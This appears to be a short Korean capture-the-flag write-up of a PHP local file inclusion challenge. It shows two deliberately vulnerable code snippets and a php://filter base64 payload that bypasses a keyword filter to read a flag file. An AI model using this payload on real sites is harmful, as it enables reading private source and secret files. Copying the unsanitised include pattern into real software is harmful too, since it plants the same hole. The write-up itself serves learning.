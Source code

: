 ```
    <div class="container">
      <?php
          include $_GET['page']?$_GET['page'].'.php':'main.php';
      ?>
    </div> 
```
```
<h2>View</h2>
<pre><?php
    $file = $_GET['file']?$_GET['file']:'';
    if(preg_match('/flag|:/i', $file)){
        exit('Permission denied');
    }
    echo file_get_contents($file);
?>
</pre>
```
- 위의 두 코드에서 볼 수 있듯이 LFI 취약점을 가진 문제이다.
- 그런데, View.php파일 내부에선 preg_match를 통해 flag라는 문자열의 파일을 잡아낸다.
  - /?page=view&file=../uploads/flag.php 이런식으로 view파일내부의 file파라미터를 통해서 접근하면 말이다.
- 그래서 php wrapper를 통해 바로 이런식으로 필터링해서 접근하면 가능하다.
  - /?page=php://filter/convert.base64-encode/resource=/var/www/uploads/flag